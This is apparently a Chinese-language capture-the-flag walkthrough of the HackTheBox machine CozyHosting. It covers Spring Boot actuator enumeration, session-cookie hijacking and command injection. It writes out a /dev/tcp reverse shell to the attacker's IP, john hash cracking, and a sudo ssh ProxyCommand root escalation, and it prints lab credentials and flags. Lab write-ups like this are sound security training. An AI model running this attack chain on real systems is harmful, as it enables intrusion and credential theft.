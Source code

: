 ## CozyHosting 

使用nmap对目标机进行扫描

```
nmap -sV -sC 10.10.11.230
```

![image-20231210205403478](/home/gary/文档/GitHub/note/图片/image-20231210205403478.png) 

发现了22和80端口

登录上去先用gobuster目录爆破

```
gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 200
```

![image-20231211093932149](../图片/image-20231211093932149.png)



自己去网页上看看，发现报错页面出现Whitelabel Error Page 这是Springboot的报错页面

![image-20231211091527304](../图片/image-20231211091527304.png)

使用springboot未授权访问专门字典爆破一下

```
gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -t 200
```

![image-20231211095846838](../图片/image-20231211095846838.png)

```
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator             (Status: 200) [Size: 634]
/actuator/health      (Status: 200) [Size: 15]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/sessions    (Status: 200) [Size: 48]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/beans       (Status: 200) [Size: 127224]


其中对寻找漏洞比较重要接口的有：

/env、/actuator/env

GET 请求 /env 会直接泄露环境变量、内网地址、配置中的用户名等信息；当程序员的属性名命名不规范，例如 password 写成 psasword、pwd 时，会泄露密码明文；

同时有一定概率可以通过 POST 请求 /env 接口设置一些属性，间接触发相关 RCE 漏洞；同时有概率获得星号遮掩的密码、密钥等重要隐私信息的明文。

/refresh、/actuator/refresh

POST 请求 /env 接口设置属性后，可同时配合 POST 请求 /refresh 接口刷新属性变量来触发相关 RCE 漏洞。

/restart、/actuator/restart

暴露出此接口的情况较少；可以配合 POST请求 /env 接口设置属性后，再 POST 请求 /restart 接口重启应用来触发相关 RCE 漏洞。

/jolokia、/actuator/jolokia

可以通过 /jolokia/list 接口寻找可以利用的 MBean，间接触发相关 RCE 漏洞、获得星号遮掩的重要隐私信息的明文等。

/trace、/actuator/httptrace

一些 http 请求包访问跟踪信息，有可能在其中发现内网应用系统的一些请求信息详情；以及有效用户或管理员的 cookie、jwt token 等信息。
```

访问/actuator/sessions 发现一个用户名密码kanderson及sessions：D4B652AF970AB1E933D11958B3FAA255

![image-20231212120421904](../图片/image-20231212120421904.png)

使用cookie修改工具方便快捷。



![image-20231212120228945](../图片/image-20231212120228945.png)

刷新成功登录到后台页面

![image-20231212121720982](../图片/image-20231212121720982.png)

发现ssh功能点尝试一下RCE

![image-20231212133600245](../图片/image-20231212133600245.png)

爆出uid值为1001,说明存在RCE漏洞，进行反弹shell

使用nc监听5566端口

```
nc -lvvnp 5566
```

使用bp发包反弹shell

首先使用如下命令来创建一个与攻击者的tcp连接，并将标准输入(0)重定向到这个连接，sh是一个子shell的标记，用来在括号内执行命令

```
`(sh)0>/dev/tcp/10.10.14.15/5566`
```

![image-20231212134156727](../图片/image-20231212134156727.png)

在监听方执行一下命令

将标准输出(1)标准错误(2)都重定向到标准输入(0),exec会替代当前shell进程，不会创建新进程

```
exec >&0   
```

启动一个新交互式bash，将输出记录到/dev/null丢弃，执行的命令不会在目标留下任何痕迹

```
script /dev/null -c bash     
```

![img](../图片/截图_2023-12-12_14-03-29.png)





在目标发现一个jar文件

![img](../图片/截图_2023-12-12_14-16-48.png)

发现目标主机上有python环境，开启http服务下载jar文件

```
python3 -m http.server 1234
```

![img](../图片/截图_2023-12-12_14-22-49.png)

在本机上访问1234端口下载jar文件

![img](../图片/截图_2023-12-12_14-22-09.png)

使用jar包进行反编译

java-decompiler.jar 来自IDEA

```
java -cp “/opt/java-decompiler.jar:” org.jetbrains.java.decompiler.main.decompiler.ConsoleDecompiler -dgs=true cloudhosting-0.0.1.jar data
```

直接解压缩然后用IDEA查看就行

查看到数据库用户密码

```
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

![image-20231213161746612](../图片/image-20231213161746612.png)

在看其他wp的时候发现一种新颖的方式

```
mv cloudhosting-0.0.1.jar cloudhosting-0.0.1.zip
mkdir cloudhosting | unzip cloudhosting-0.0.1.zip -d cloudhosting
cd cloudhosting
grep "password" ./r
grep "username" ./r
```

![img](../图片/截图_2023-12-13_16-40-27.png)

查看5432端口是否存在

```
netstat -pantu | grep 5432
```

![img](../图片/截图_2023-12-13_16-56-26.png)

使用psql登录到数据库

```
psql -h localhost -p 5432 -U postgres -d cozyhosting -W
```

![img](../图片/截图_2023-12-13_16-59-31.png)

查看数据库名称的列表

```
\l
```

![img](../图片/截图_2023-12-13_17-12-06.png)

查看数据库表

```
\d

```

![img](../图片/截图_2023-12-13_17-13-55.png)

查看users表里面内容

```
select * from "users";
```

![img](../图片/截图_2023-12-13_17-44-07.png)

```
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

使用john 解密hash 文件

```
john --wordlist=/usr/share/wordlists/rockyou.txt cozyhosting 
```

![img](../图片/截图_2023-12-13_18-11-22.png)

解密的密码为：manchesterunited

使用root用户无法登录

查看一下有那些用户

```
cat /etc/passwd
```

发现有root,app,josh

![img](../图片/截图_2023-12-13_18-21-49.png)

使用josh登录到服务器

```
ssh josh@10.10.11.230
```

查看flag

```
cat user.txt
7e34e165c35c77e2b126d3851d37115a
```

![img](../图片/截图_2023-12-14_08-48-33.png)

提权

查看一下sudo权限

```
sudo -l
```

![img](../图片/截图_2023-12-14_08-50-03.png)



使用ssh提权

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![img](../图片/截图_2023-12-14_09-11-07.png)

找到root的flag

```
21264bb643c66171e772d117fda10ece
```

![img](../图片/截图_2023-12-14_09-14-28.png)

